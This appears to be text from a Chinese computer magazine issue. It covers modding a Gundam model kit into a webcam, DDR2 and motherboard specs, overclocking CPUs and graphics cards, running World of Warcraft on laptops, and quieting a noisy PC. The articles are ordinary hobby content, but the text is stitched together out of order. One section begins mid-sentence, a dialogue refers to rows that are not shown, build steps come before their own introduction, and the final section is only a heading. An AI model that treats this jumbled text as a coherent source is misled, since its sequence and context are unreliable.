材料很容易取得，摄像头在电子市场里面随处可见，不到100元就能买到，记得要买个小巧的，我所使用的摄像头前面带一个很宽的调节旋钮，而且是固定在摄像头上的，所以不得不把它锯掉，如果是镜头小巧的，完全可以省掉这一步。模型可以在模型玩具店买到，或从网上邮购。我入手的价格是140元，我认为最高可以接受的价格是160元，不要买贵了。另外，决不要买盗版的，那是国内厂家翻模制作的，价格虽然便宜，但质量奇差，两个零件组装起来连缝都对不上，所以一定要从模型店或网上购买，购买地点后面会提到。

认真阅读说明书，然后用模型钳把零件取下来。之后按照说明书一步一步地将模型组合起来。如果装错了零件，不要用太大力去掰，那样会损坏零件，而且定位栓八成会断掉。你可以用笔刀或美工刀从两个零件中间轻轻插进去，然后慢慢活动，将两个零件分开，尽量别让刀刃伤到零件。

## 给机器人装个电子眼吧！

先取下B8、B9和B17这三个零件，B8是钢球内构的前半部分，B9是后半部分，B17是下面的部分。在说明书第7页，你可以看到内部大概的结构是怎样的。B8是我们要改动的主要零件，所要做的就是把中间掏空，让摄像头的镜头可以从那里伸出来。不要把孔掏得太大，否则会很难固定摄像头，所以在继续之前，先停一下，把摄像头拆掉。

用螺丝刀拆开摄像头，你会发现里面只有一块很小的电路板，这块电路板刚好可以放到B8和B9组合起来的内部空间中，用尺子量一下摄像头镜头的直径，然后开始在B8上挖洞。我是用手钻先打一圈孔，然后用笔刀削出来的。手钻是比较贵的工具，所以你可以用其他方法，比如灼热的螺丝刀或者锋利的刻刀，也可以先在正中打一个孔，然后再用笔刀慢慢地扩大。无论你怎么打这个孔，最后完成的时候，一定要用笔刀修一下边。由于我们切掉了B8的一部分，还要留出镜头的位置，所以C13、B6、B7、B14这四个零件就不要安装了。

接下来是电路板的空间问题了，由于B8和B9两个零件中间的四个巨大的定位栓会挡住电路板，所以请用笔刀慢慢地削掉B9上的四个定位栓。在削B8之前，先用尺子量一下电路板的尺寸。因为也许你不必完全削掉B8上的定位栓，而是可以保留外侧的一半，它们刚好可以将电路板卡在中间，起到固定电路板的作用。

下一个问题是如何固定摄像头，我用的方法是在摄像头前面贴了几张塑料板垫厚，然后用502胶强行固定住，这样不会妨碍转动镜头调整焦距，也不会因为镜头太长导致前面的坐舱盖无法盖住。每个摄像头的结构未必相同，在这里你可以自己开动脑筋，比如在电路板后面用泡沫塑料垫上，再在前面垫几张开了孔的卡片，现在各种各样的塑料卡片满街地发，应该不难找到。有些摄像头会带LED灯，把它弯到电路板侧面或者后面就可以了，但千万别剪掉它。总而言之，在固定电路板的时候，一定要注意三点：第一，不要让镜头伸出太多，挡住坐舱盖；第二，千万别把镜头粘上，因为你还需要转动镜头来调整焦距；第三，电路板不用固定得太结实，但也别让它乱晃，要保证它水平放置，否则拍出来的影像就是歪的。

最后一个需要改动的零件就是B17，因为你必须要让USB线从钢球的内部走出来。这是最好的位置，因为其他的地方外面都有一层装甲。你可以在这个零件的后方开一个大洞，把整个USB插头拉出来，也可以只开一个小口，剪断USB线穿过它，再从钢球内部把线用绝缘胶带连接起来。USB设备有四根线，红色是供电，黑色是接地，绿色和白色是数据，其实你不需要知道这些，只要按照颜色再把它们接起来就好了。还有个小技巧需要介绍，如果坐舱盖开启之后还是会挡住摄像头的视野，你可以把B2这个零件的上面用笔刀或者锉刀打薄一点，这样坐舱盖的活动范围就更大了。

现在，需要改动的零件都改好了，摄像头也固定在钢球的内部了，接下来你只要按照说明书一步一步做好了。要有耐心，对每一个零件都要认真处理，特别是外面装甲的部分，因为那是肯定会露在外面的零件，要特别小心。全部组装完毕后，对外面装甲部分进行渗线，等渗线完全干了之后，再贴上贴纸为模型增加细节。

终于完成了，看着自己用爱、用生命制作出来的钢球摄像头，是不是感动得泪流满面呢？我的制作过程对于没怎么接触过模型的人来说比较复杂，所以并没有在文章中描述，如果你感兴趣，可以访问 http://egger r.com/sp/ball 去看我的制作日志。如果对本文有问题，可以通过 egger rwu@gmail.com 联系到我，我会尽我所能地为你提供帮助。

DDR266、DDR333和主流的DDR400，当然也有更高规格的DDR533等等。与DDR一样，DDR2采用了在时钟的上升沿和下降沿同时进行数据传输的基本方式，但在同等核心频率下，DDR2拥有两倍于DDR的数据传输率。DDR2内存采用FBGA封装，提供了比TSOP封装更好的电气性能与散热性。此外，DDR2额定1.8V的工作电压，相对于DDR标准的2.5V来说降低了不少，不仅减少了能耗，更降低了内存的发热量。
DDR内存与DDR2内存的参数对照如下表：
表2
频率 200， 266， 333， 400
封装 TSOP and FBGA
电压 2.5V
位宽 64 Mbit - 1 Gbit
内部banks 4
Prefetch (DDR Write) 2
CAS Latency (CL) 2， 2.5， 3
Additional Latency (AL) No support
Read Latency CL
Write Latency 1
On-Chip Bus Termination None
Burst Lengths 2， 4， 8
DDR2内存的参数对照如下表：
频率 400， 533， (667， 800)
封装 FBGA
电压 1.8V
位宽 128 Mbit - 4 Gbit
内部banks 4 and 8
Prefetch (DDR Write) 4
CAS Latency (CL) 3， 4， 5
Additional Latency (AL) 0， 1， 2， 3， 4
Read Latency CL + AL
Write Latency Read Latency - 1
On-Chip Bus Termination Embedded
Burst Lengths 4， 8
林林:小笨，你是不是要问第四行是什么意思？呵呵…小笨:嗯，果然是JS!“高速绘图卡界面”我知道，其实就是显卡接口。但我不大明白PCI Express是什么？
林林:不错，PCI-E(PCI Express)是全新的计算机总线接口规范，该总线提供20条通道，每条通道不仅采用串行方式连接；而且通道还可以灵活搭配，例如，PCI-E x16（见图2）就是16条PCI-E总线通道合并起来组成的一条，这样一来，提供了前所未有的数据传输带宽，也使显卡不再受到总线瓶颈的约束。目前厂商也已将产品重点放在这个接口规范上，所以大家购买装机时，应该更多的考虑采用PCI-E架构的主板和显卡。
小笨:嗯，我明白了。
天唯:哦，小笨一点都不笨嘛，呵呵…
第五行就由你来给同学们解释一下吧。
小笨:这简单，它说明了主板上集成的网卡的品牌、数量和规格。“Broadcom”和“英特尔(Intel)”是网卡控制芯片的品牌。而“BCM5751千兆(Gb)以太网卡控制芯片和82562 EZ自适应百兆网卡”则是该芯片的型号、规格。通常来说，一块主板只会集成一个网络控制芯片，且对应一个网卡接口。而这里有两个控制芯片，因此说明这块主板是双网卡主板。而“千兆”和“百兆”则分别标出了它们的传输速率规格，这个不用多说，地球人都知道千兆的要比百兆的快得多。而第六行说的则是该主板自带8声道HD音效的声卡，它可接一个7.1的音箱。但是，HD是什么我就不大清楚了。
天唯:插一句，常见的网卡牌子还有Realtek和3COM的，一般来说，3COM和Intel的在性能上会更好一些。当然了，价格也会更高一些。而“HD”就是High Definition Audio（高保真音频），也有HD Audio一说。它的主要优点在于它的音频采样位数和音频采样频率都非常高，理论上使电脑中播放的音频达到甚至超过高档家庭影院的音质效果。常见的HD Audio解码芯片有Cmedia的CMI9880和Realtek的ALC880等
林林:呵呵，小笨也变聪明了，那最后一行还是我来吧。8个USB2.0控制器是指该主板具备8个USB 2.0接口；4个Serial ATA/150端口是指该主板拥有4个Serial ATA/150硬盘接口。SATA(Serial ATA)，即串行ATA接口，与传统并行ATA(PATA/IDE)存储设备相比，SATA硬盘有着无可比拟的优势。
天唯:嗯，通过这次的学习，我们可以看出，主板性能的好坏关键在于采用什么样的芯片组。当然，一款主板的优劣还要看工艺、做工和所选原材料(电容、插接件等)的好坏。好，时间不多了。今天大家的表现都很不错，日后还要继续努力！我们下期再见吧。

小提示
IDE数据线有40线和80线之分，但IDE连接器却只有40针的，一个是线缆，一个是接口，不能混淆。

火速链接
网友发的主板基础帖子，清楚的将主板的作用、关键部分说了出来！http://bbs.zol.com.cn/new/static_book2/102/557/102_93557.shtml
《看图轻松认识主板的性能》大家可以通过这篇文章好好的认识一下主板上的部分。http://www.enet.com.cn/A20040403299645.html
(天津 王磊)## 什么是高达(Gundam)

我的钢普拉的主人公叫做高达，有些朋友可能还不认识他。高达的英文名称是Gundam，这个词是1979年创造的，它是由Gun + Freedom两个词组合在一起得来的，大概的意思是说拿起枪为了自由而战斗的由人驾驶的机器人。在后来的系列中，它被解释为一个缩写，全称为：General-purpose Utility Non Discontinuity Augmentation Maneuvering Weapon System。最新的SEED系列中，它又被解释为：General Unilateral Neuro-link Dispersive Autonomic Maneuver。这些都是官方的解释，不知道如何翻译才合适我喜欢第一种。关于中文译名就很有趣了，台湾将它翻译成“高达”，香港将它翻译成“钢弹”，我觉得“钢弹”这名字很劲。到了大陆的时候，发现高达这个名称已经被注册了，而且注册人索要高额转让费。日方无奈只好选择了“敢达”，这名字听起来怪怪的，所以我还是习惯称他们为高达，但你若看到“敢达”二字，千万不要觉得奇怪，因为那才是官方的Gundam大陆中文译名。

## 高达26岁了

今年4月7日是高达26周岁生日，也许对有些人来说“高达”这个词还比较陌生；但在日本，高达早已突破文化的范畴深入到社会的方方面面，成为一种令人惊叹的现象。为什么高达具有如此之大的魅力，历经26年而不衰？首先，仅就动画系列而言，高达的确是一部相当优秀的作品。虽然在形式上与70年代以来日本的超级机器人动画一脉相承，但高达在内容上敢于突破超级系动画旧有的模式，不再局限于善与恶之间简单的对立斗争，而是更真实化地描写人与战争以及作为人的个体在整个战争中的命运。高达作品中的世界非常丰富完善，在这个世界中，主角不再是那些可以凭借一己之力拯救整个世界的英雄，而是被迫卷入战争中的少年少女。导演在作品中真实地描述了他们的痛苦和对命运的抗争，展现了他们对和平的渴望和追求；配角也不再只是主角们的陪衬，而是各自具有自己独特鲜明的形象。可以说，出色的剧情和人物是高达获得成功的首要保证。其次，作为机器人动画，高达的机械设定也非常出色。高达系列作品的机械设定师如大河原邦男、角木肇（这款钢球便是角木肇大师之作）等人，均是日本第一流的动画机械设定大师。在他们精心的设计下，即使是配角机体也非常有特色，摆脱了过去的机器人动画中配角千机一面的状况，为高达争取到很多喜欢机械的爱好者。再次，由于万代（BANDAI）公司的策划，高达的商业运作非常成功。到目前为止，高达已经推出了数十部作品，相关的资料、资料书籍、游戏、漫画、模型手办（没有大量生产的模型套件）等更是不计其数。其系列之庞大，在日本动画中毫无疑问是首屈一指的。

## 模型制作基本知识

## 模型词典

零件：不需要解释，就是我们需要的东西，组合模型需要的部件，它被流道固定着。流道：也就是固定零件的框架，冲模的时候，液态塑料就是从这里流进模具的。水口：流道和零件结合的部位，一般的零件有2到4个水口，大一点的零件可能会更多。定位栓：它是零件上用来和另外一个零件拼接起来的塑料柱。它的作用是固定两个需要拼合的零件位置，在不进行黏合的情况下，它还可以增加模型的牢固度。假组：也就是并非真的将他们组合起来。在组合之前，用模型钳斜着剪掉一部分定位栓，只保留一半甚至更少，这样装上去也可以很轻易地再取下来。在使用这种方法的时候，最终通常都会黏合的，所以可以无视定位栓的牢固作用，但在本例中，请尽量不要使用这种方法。如果一定要使用，请在最终组合的时候在定位栓上点一小滴模型专用胶或者502强力胶，以保证模型的牢固度。

## 模型制作必备工具介绍

模型钳（斜口钳）：无论如何，你需要一把模型钳。国货货只需要15元左右，进口的田宫模型钳价格是90元。如果你只是做这一次，不打算把模型作为一个长期的爱好，那么买个便宜的就好。我之前买过两把国产的模型钳，后来水水送了一把田宫的，真棒，无论是手感、锋利程度、刀口形状还是耐用性都是一流的，绝对的物有所值。

笔刀：笔刀用来修整水口，切割透明贴纸和转印贴纸，也属于必备工具，国产的笔刀只要30元左右，田宫的贵些，要70元。如果你不想在这上面花钱的话，用美工刀也可以，只是用起来不如笔刀顺手。

还有高达专用的马克笔，水性油性都可以，用来做渗线用。此外，还有模型专用胶水、剪刀、镊子、钢尺、棉签、螺丝刀、绝缘胶带等，这些东西一般家里都有，不需要去购买了。

剪下来的零件，注意那些小的凸起，就是水口，需要进一步修剪

## 如何完美从包装中取下零件

怎么把零件从流道上取下来是每个模型爱好者的必修课。你可以用剪刀、指甲刀或者美工刀这些东西把零件取下来，你甚至可以直接把它揪下来，但零件变成什么样子我就不知道了。现在我要告诉你正确的方法，拿起你的模型钳吧。第一步，模型钳刃口的平面朝向零件，尽量远离水口，把零件从流道上剪下来，这样能够充分保证不伤到零件。剪的时候要注意扶住零件，否则有些大零件在你剪下两三个水口之后，零件本身的重量就会弄折其他水口。在剪一些小零件的时候往往会因为流道的重量而弄坏零件，这时候你可以连周围的流道一起剪断，然后再将零件取下。第二步，零件取下来了，但周围的水口都很长，下面你要做的是再次用模型钳把多出的部分剪掉。这次距离零件1毫米左右，但决不要紧贴着零件，应该留下一点点的水口。第三步，现在零件周围只保留着很短的水口了，只要再用笔刀或者美术刀小心地把他们削去就可以了。使用刀具的时候要注意安全，我被笔刀切过好多次了。我的经验是不要向内侧削，以免切到手，还要保证刀刃锋利，这样你可以不必太用力。

如果你在北京，推荐的店面是方家模型店，就在安内大街方家胡同入口的北边，很容易找，坐车也很方便。我是那里的常客，老板是位爱好模型的姑娘，很热情也很好说话，手艺也很棒，我见过她的作品，比我强很多。你可以先打电话去问一下，电话是64073344。如果你在其他城市，可以去http://www.moxing.net/bbs/dispbbs.asp?boardID=5&ID=143&page=1看看，这是全国模型店地址的列表，你可以找到离自己比较近的店去购买模型和工具。如果你要从网上购买，推荐上海模型科幻网http://modelsky.nease.net/，开了很多年，信誉度比较高，只是邮递时间稍微长了点，其他都还满意。当然，现在遍地都是网上模型店，去哪里买都是可以的，但是要注意价格，有些店漫天要价，小心被宰。如何确定价格是不是合理呢？其实很简单，先去http://www.1999.co.jp/eng/index.html搜索你想要的模型，你就可以看到它的日元价格，用这个日元价格除100然后乘7或者乘8就是人民币的价格了。拿钢球来举例，它的价格是2000日元，那么除100乘7之后得到140，乘8的话是160，那么正常的价格就应该在这个区间内。现在日元升值，按照7来算的已经很少了，但决不应该超过8，而商场BANDAI专柜一般是按照11来算的。总之，在购买之前去查一下，做到心中有数，你就不会买贵了。

## 购买模型和工具的技巧

## 制作技术网站和书刊：

- 模型村：http://www.modelvillage.net/ 很多关于模型的技术讲座。
- 度量量的网址http://www.mo-xie.com/ 以高达为主，内容还算丰富，只是速度较慢。
- 兵器模型网站：http://www.moxing.net 有很多模型技术的介绍，但是以军事方面的模型为主。

书刊方面很让人痛心，国内实在是没有什么好的高达模型刊物，只有一本《模型世界》，但以军事模型为主，即使偶尔有高达的内容，也只是一篇文章而已，实在不值得购买。另外还有一本《玩具王》，主要介绍消费型玩具，和模型其实搭不上边。前几年我的一位朋友汪寅（也就是大名鼎鼎的软体动物）创建了《玩具新时代》，经营了两年，终于还是因为资金问题而停刊了，那实在是一本不可多得的好杂志。同时，他也是我的入门导师，借此机会，对他以及他所做的努力表示深深的敬意。如果你想要购买高达模型方面的杂志，那就只有香港中文版或者台湾中文版的《电击HOBBY》了，《电击HOBBY》并没有大陆中文版，所以你只能通过网上订购或者去中图订购。

（文/吴涛 摄影/郑正）

## CPU超频技法大放送

天唯：嗨，大家好，欢迎再次来到“硬派讲堂”，在上一期的“硬派讲堂”中我们为大家介绍了如何看懂主板宣传单，收到许多许多封读者的来信，都快把我的邮箱撑爆了，所以天唯在此要谢谢大家的支持和鼓励。这次天唯为大家请来了一位电脑高手——大雪，来给大家讲讲关于超频方面的知识和技法。

大雪：大家好，很高兴来到“硬派讲堂”，非常感谢天唯的邀请，也希望大家不要客气，有问题尽管问，我非常乐意和大家分享我的经验。

小笨：超频常听说，但不大明白它超的是什么，为什么要超？

大雪：超频就是通过各种手段来提升CPU的主频，以工作频率的提升来提高系统的性能。而主频的提升与外频、倍频有最直接的关系。外频是系统总线的工作频率，其意义相当于一个火车站检票口每小时检票的数量，而倍频则是指CPU外频与主频相差的倍数，其意义相当于有多少个火车站检票口在同时工作。那么，我们可以得到：“主频 = 外频 × 倍频”的计算公式。这个公式，就是超频的根本依据。

林林：嗯，这我知道，我通常卖CPU的时候，都会拿这个去吸引买家的。

大雪：呵呵……是的，超频所带来的频率提升极限多少是因CPU的品质特性而定的，而对于热爱超频的DIY用户来说，一颗超频性能突出的CPU是很可贵、也是很值得骄傲的。目前，超频空间、性能较为突出的是AMD的CPU，它可以让用户任意调整外频与倍频，可超性非常好。而Intel的CPU为了保持其超强的稳定性，在制造时就将CPU的倍频锁定，只保留了外频的调整。

天唯：外频的速度通常与前端总线、内存的速度紧密相关。因此当你提升了CPU外频之后，CPU、系统和内存的性能也同时提升，这样系统的整体性能就自然提高了。不过，外频的调整会更多的受到内存、显卡、PCI等配件的运行频率限制，连带的也会使CPU主频的提高受到更多的限制。所以对于那些追求CPU主频极限的DIYer来说，限制倍频是一种很“可恶”的做法。

大雪：呵呵，超频是榨取硬件性能潜力的重要手段，能给电脑带来超出产品本身标准性能的性能提升，这也是为什么大家要超频的原因。从486到Pentium4，从AMD K5到AMD Athlon 64，超频玩家们几乎狂超了每个时代推出的CPU，与此同时也为了配合CPU超频的成功实现，内存频率和总线频率也被玩家们以接近疯狂的程度在提升着极限。与此同时，超频高手也没有忘记对游戏性能影响甚深的显卡超频。于是，各种应用于超频的技法层出不穷，从而成为玩家们提升硬件性能的必修功课。

下面我将会给大家详细地讲讲超频的技法，小笨、林林，你们可要听好了！呵呵……

### 跳线超频法

针对早期的PC来说，其超频主要是通过主板上的一组跳线（见图1）的不同组合来完成的，通常在主板说明书或主板电路板上均有跳线的设置列表（见图2）。在通过几组跳线不同的组合之后；就可以获得我们所需的CPU外频、CPU倍频和CPU工作电压。

由于不少CPU已经锁定了倍频，因此绝大多数情况下，我们只能通过提升CPU外频时钟频率来进行超频，然而由于CPU的外部时钟频率和系统前端总线的频率“捆绑”在一起，因此在提升外部时钟频率的同时，也会同步提升内存工作频率（支持内存异步的主板除外），如果内存品质达不到超频之后的要求，则容易死机，因此我们需要在BIOS中降低内存参数，特别是内存的CAS参数。如果未超频时是“2”，那么在超频之后应将其设置为“3”，从而让内存在其频率在提升之后，能够正常的工作。

对于某些先天超频体质不是很好的CPU来说，可以适当提升CPU电压来保证CPU超频之后的稳定性（通过电压跳线）。不过，电压提升必须一个限度，通常在0.2V左右，不同CPU的电压提升限度略有不同。提升电压之后，会造成CPU温度快速上升，因此必须加强CPU的散热。

> > 小编有话说：这种超频方法的难度系数为：★★★★☆；风险系数为：★★★★★。

### “免跳线”超频法：

所谓“免跳线”超频法就是在BIOS程序中对CPU实施超频，或者通过一些专用的（或厂商提供的）超频软件进行超频。这种方式的优点是：可以调节的超频参数比较丰富，即使超频失败也不容易造成硬件损坏，特别是以Windows系统环境下，以软件方式来进行的超频。

### 1.在BIOS中进行超频

开机时按“DEL”或“F2”键进入BIOS设置程序之后，打开“frequency/voltage Control”（频率／电压控制）菜单（见图3），在此菜单中，我们就可以对CPU进行超频。除少数情况下，CPU倍频可以调节（譬如华硕的某些主板就破解了Intel处理器的倍频锁定）外，要对CPU进行超频，主要是调节“CPU Host frequency”（调节CPU的外部时钟频率），对于某些主板来说，还可以1MHz的步进方式来进行频率的提升（见图4）。如果内存的超频品质不佳（譬如只能工作在DDR266状态下），那么对于支持内存异步方式的主板来说，则可以单独设置内存的工作频率，譬如CPU外部时钟频率设置为166MHz，而内存频率则锁定在DDR 266 (133MHz)上。这样做，可以克服内存对超频的限制。

适当地增加内存工作电压、AGP电压和CPU工作电压可以增加超频的成功率和稳定性。如果超频之后系统不稳定（如性能不升反降、老死机等），我们就可适当地提升DIMM OverVoltage（内存电压）、AGP OverVoltage（AGP显卡工作电压）和CPU Voltage（CPU工作电压）来保证超频之后的稳定性。但此时，必须对相关硬件加强散热，而且还要尽可能减小电压提升幅度。

对于内存的CL值（CAS latency）（见图5），将其设置为较为保守的“3”或“2.5”，可以提高超频后的稳定性！

> > 小编有话说：这种超频方法的难度系数为：★★★☆☆，风险系数为：★★★☆☆。电压的调整大大提高了该方法的风险系数，如除去这个因素的影响，该方法的风险系数为：★★☆☆☆。

### AMD Athlon XP 超频技巧：

对于某些未锁倍频（或已经破解了倍频锁定）的AMD Athlon XP处理器来说，为了达到更高的频率，可以降低倍频的同时提高外频，又或者是降低外频的同时提高倍频（见图6）。这个应当根据主板芯片组、内存的超频能力来灵活处理，譬如DDR333内存由于无法在DDR400（200MHz）下工作，因此我们可以单独提升倍频来获得更高的运行频率。

> > 小编有话说：这种超频方法的难度系数为：★★★☆☆，风险系数为：★★☆。这种方法需要操作者多思考，且具备更多的超频经验，因此难度增加了不少。

### 2.软件超频法：

#### (1)用软件超频 CPU

通过一些专用的超频软件（譬如CPUFSB、softCPU、Clockgen）或主板官方提供的超频软件（譬如技嘉、华硕、微星、QDI均有这样的超频软件），我们可以在Windows操作系统中以最安全、最简单的方式来超频。

譬如用Clockgen，就可以很容易地提升北桥芯片组的前端总线频率（实际上也是CPU的外部时钟频率）来超频CPU，与此同时我们还可以调整AGP的时钟频率和PCI总线的时钟频率来保证超频的可靠性。

> > 小编有话说：而以微星提供的CoreCenter超频软件来说，其提供的超频选项就更为丰富了。但受篇幅限制，这些官方提供的超频软件就暂且不表，随后会为大家做更详细的介绍。这种超频方法的难度系数为：★☆，风险系数：★☆。多种安全措施，如超频失败自动恢复等大大降低了该方法的风险系数，非常适合菜鸟们使用。

#### (2)用软件超频显卡

对于nVIDIA显卡来说，其雷管驱动程序的控制面板中，已经隐藏了超频选项。我们可以通过NVCOOL这个软件来打开隐藏的超频选项，打开隐藏选项之后，就可以很轻松的对显卡内核工作频率和显存频率进行提升了。

对于ATi显卡来说，可以使用ATitool这个工具来进行超频，也是非常简单的。而且它还可以自动检测显示内核和显存的极限工作频率，从而给超频显卡提供一个可靠的依据。这里笔者向大家强烈推荐用ATitool超频ATi显卡，因为它操作简便，还是免费软件。

除此之外，对于显卡的超频，还可以使用厂商提供的显卡超频工具，譬如七彩虹显卡提供的Smartvga，这个软件可以很方便的对七彩虹的nVIDIA和ATi显卡进行超频，并且还有温度监控功能（当检测到显卡内核温度过高时，会主动降频并发出警告）。

小编有话说：这些软件都已经很成熟了，而且傻瓜式的操作及多重保护的措施使得它的难度系数只有：★☆，风险系数为：★。

另外，还有编辑、修改显卡的BIOS，然后重新写入显卡BIOS芯片来实施超频的方法，然而这种方法的风险值比较高，除非很有把握，否则不建议使用。其实，前面的超频软件和驱动程序超频，均可以在进入操作系统之后，将显卡频率提升至指定值，这样也相当于做到了一劳永逸。

天唯：总之，超频的技法是非常多的，由于硬件的特性和个性设置均不同，因此在实际应用中，应当灵活使用，并且在某些时候还需要配合起来使用才见成效，这里大雪所说的，只能起到一个抛砖引玉的作用，具体操作尚需大家在实践当中去摸索。好了，这期的时间有差不多了，大家还有疑问的，可以发E-Mai到market@cfan.com.cn，大雪、阳光编辑和我都会为大家详细解答。

（王磊 王军）

## 带本入“WOW”的两个关键问题

进入《魔兽世界》（以下简称WOW）的朋友是越来越多了，这段时间我们收到不少的读者E-Mail，提问与WOW有关的问题，其中还有不少笔记本电脑用户。这里阳光整理了一下，给大家说两个让WOW在本本上流畅运行的关键问题。

编者注：本本是笔记本电脑用户对笔记本电脑的昵称，简单而亲切。

## 什么才是影响WOW速度的关键？

这个恐怕是近来网上、网下最多人问的一个关于WOW的“硬件问题”了，同时也成为了很多人在购买与升级本本时的一个重要依据了。其实，影响WOW速度的有以下三个方面的因素：

- a. 网速：这是一个用户永远不能控制的“痛”，不管是在单位还是在家里，网速都受到了网络服务供应商的实力的限制。可以说，目前连接WOW最快的有网通和电信的ADSL或小区宽带。其中，ADSL最为稳定，因为它属于独享带宽一类的网络接入方式。相对来说，小区宽带因为是共享带宽，网速会受到同一小区上网人数的多寡影响。人越多，速度越慢。
- b. 显卡：这个对于本本用户来说问题不算很大，但也是一个至关重要的问题。毕竟WOW是一个大型3D网络游戏，其图形处理量一点也不亚于一些如《侠盗车手》、《反恐精英v1.6》等的3D游戏。不过，近两年推出的，采用迅驰平台的本本都集成了Intel Extreme Graphics 2代或性能更高的独立显卡（如Geforce Go 6200、Radeon 9700等），它们的性能都足以应付WOW。当然，如果要得到更高的画面质量，开启更多的特效，没有独立显卡是不行的。
- c. 内存：CPU就不用多说了，现在本本用的CPU都在1GHz以上，不管是赛扬M，还是奔腾M都不会有问题。而对于这样一款大型3D网络游戏来说，它对系统资源的巨大需求就会直接体现在内存的占用率上。一般来说，512MB是保证WOW流畅运行的最基本要求，而要流畅地运行WOW的话，没有1GB以上容量的内存是不可能的。

## 怎么平衡发热量与性能的问题？

很多本本都自带有温控功能，这些功能有通过硬件、软件实现的，也有通过软硬结合的方式来实现的，如Intel平台的SpeedStep功能。而它们实现温控的原理都是根据CPU物理表面的温度来对CPU、系统的运行速度进行电压和工作频率地调整。在温度升高到一定程度的时候，直接降低CPU电压和工作频率，降低它们的发热量。而随之而来的，自然是系统整体性能的下降。很多读者来信提到的，在运行WOW一段时间之后，本本性能直线下降，WOW不停地卡机的问题，很多都是由于没有关闭这些温控功能而引起的（排除网络因素外）。要解决这个问题很简单，只要关掉它们就可以了。由软件实现的，直接关闭相关程序即可；而硬件级的，则需要进入BIOS将其关闭，并在Windows中进行相关设置即可。关闭操作可参考本刊13期《松“弛”有道——让本本的CPU全速运行》一文。但是，关闭这些功能之后，WOW巨大的处理量会让系统温度随游戏时间的延长而增长。不过，大家只要花300元左右买一个本本散热底座即可解决问题了。

（SUN）

记得是2002年的圣诞节那天，搬新家了，没有专门的书房放置电脑。因为家居布置的关系，无法像以前一样，将电脑放置在客厅，只好将电脑放置在卧室。

卧室的面积为14平方，电脑放置在房间的西南角，位置离床头的距离为3米（见图1）。家住郊区，晚上万籁俱寂，电脑风扇却发出低频的嗡嗡声，让喜欢早睡的老婆难以入眠。对此，她提出了最严重的抗议——要么在她睡觉前关机，要么就不要让电脑发声。但正处于“最忙时节”的我却不可能放下工作不顾啊，无奈之下不得不走上了一条静音的“不归路”。

## 第一阶段：初有成效

预计是不花太多的钱，将噪音明显降低。表1是第一次静音之路改造项目列表。总费用：330元。说明：第一次静音之路比较简单，到去中关村海龙去买了相关物品，半个晚上安装完毕。开始降噪效果明显，噪音已经不太影响老婆睡眠。但三五个月后，CPU风扇和机箱风扇噪音开始变大，有人说需清洁风扇、给轴承上油。用自行车润滑油上油后，效果不明显。遂另购一款CPU散热器——酷冷至尊R71，清洁过程中，航嘉冷静王加强版因操作失误意外损坏，去换回一个航嘉冷静王标准版（当时加强版无货）。另外，硬盘是希捷第一代7200转的20GB酷鱼，读盘时噪音巨大，为减少读盘提升系统性能，得同事卢某赠送64MB内存一条。

表1 第一次静音之路改造项目列表
| 项目 | 配置 | 散热方式 | 改进后配置 | 改进后散热方式 | 花费(元) | 减噪效果 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| CPU | 毒龙600超850 | 原装风扇 | 毒龙600超850 | 散热博士M-518S/酷冷至尊R71 | 100 | 明显减噪 |
| 电源 | 250W长城电源 | 后置式8CM散热风扇 | 航嘉冷静王加强版/标准版 | 内置式12CM散热风扇 | 220 | 明显减噪 |
| 显卡 | S3 SaVage4/32M | 小型显卡风扇 | S3 SaVage4/32M | 换大型无风扇散热片 | 10 | 明显减噪 |
| 机箱 | 普通爱国者机箱 | 机箱风扇 | 普通爱国者机箱 | 拿掉机箱风扇 | | 明显减噪 |
| 硬盘 | 希捷酷鱼20G | 自然散热 | 希捷酷鱼20G | 自然散热 | | 无减噪 |

## 第二阶段：遭逢“巨变”

2004年7月，老婆对家里重新进行了一次大布置，卧室里增加2个衣柜，床的位置不得不重新做了调整。结果是，电脑主机离老婆的耳朵只有1.5米了（见图2）。换句话说，机箱噪音在她的耳朵里听来大了四倍，她老人家又开始睡不着了。

表2是第二次静音之路的改造项目列表。总费用：420元。说明：这一次由于要求将噪音控制到原来的一半还要小，难度非常大。跑了很多电脑城，也试了很多产品，最后没有找到很满意的产品，整体降噪效果不明显，从此开始了与老婆长达一年的噪音之战。新换九州风神AE-2388+散热器配了一个超大（8CM）的散热风扇，可以低速运转，宣称超静音。但实际使用，老婆仍然能感受明显噪音。又跑了电脑城很多次，淘回一个传说中的风扇调速器，将风扇速度调整到1000多转。这回声音明显变小，但由于担心怕散热不够，被迫取消了CPU超频。静音电源，找遍了中关村，没有找到比冷静王更静音的电源，延用。从网上查资料，据说机箱轻薄，也会将引起共振，增大噪音。同时机箱散热不好，航嘉冷静王之类的电源风扇会自动加快速度，使噪音增大。咬牙买了一个联志的服务器机箱。当主机箱盖关好，并且移动到角落，噪音有相当程度的降低，整个主机跟所谓静音空调的噪音差不多。但老婆在神经衰弱的时候，噪音仍然会干扰她的睡眠。

表2 第二次静音之路改造项目列表
| 项目 | 配置 | 散热方式 | 改进后配置 | 改进后散热方式 | 花费(元) | 减噪效果 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| CPU | 毒龙600超850 | 散热博士M-518S/酷冷至尊R71 | 毒龙600 | 九州风神AE-2388+ | 100 | 效果不明显 |
| 电源 | 航嘉冷静王加强版/标准版 | 内置式12CM散热风扇 | 航嘉冷静王标准版 | 内置式12CM散热风扇 | 0（损坏更换） | 效果不明显 |
| 显卡 | S3 SaVage4/32M | 大型无风扇散热片 | S3 SaVage4/32M | 大型无风扇散热片 | 0 | 效果不明显 |
| 机箱 | 普通爱国者机箱 | 拿掉机箱风扇 | 联志服务器机箱 | 多风扇散热 | 300 | 效果明显 |
| 硬盘 | 希捷酷鱼20G | 自然散热 | 希捷酷鱼20G | 自然散热 | 0 | 无减噪 |
| 内存 | 64MB |  | 64MB |  | 0 | 提升性能 |
| 风扇调速器 | 无 |  | 有 | 手动调速 | 20 | 效果明显 |## 第三阶段:荷包大出血

由于第二次静音不太成功，和老婆的冲突加剧，人一急，竟然有了一个接一个的疯狂的想法，不过却迎来了一个疯狂的失败。 表 3 是 2004 年 8、9 月间第三次静音之路的改造项目列表。
总费用:2900 元
说明:这是一次失败的静音尝试，噪音是不降反升，最后“意外”的升了级，但噪音问题还是让老婆与我势不两立。

## 第四阶段:把电脑扔出去

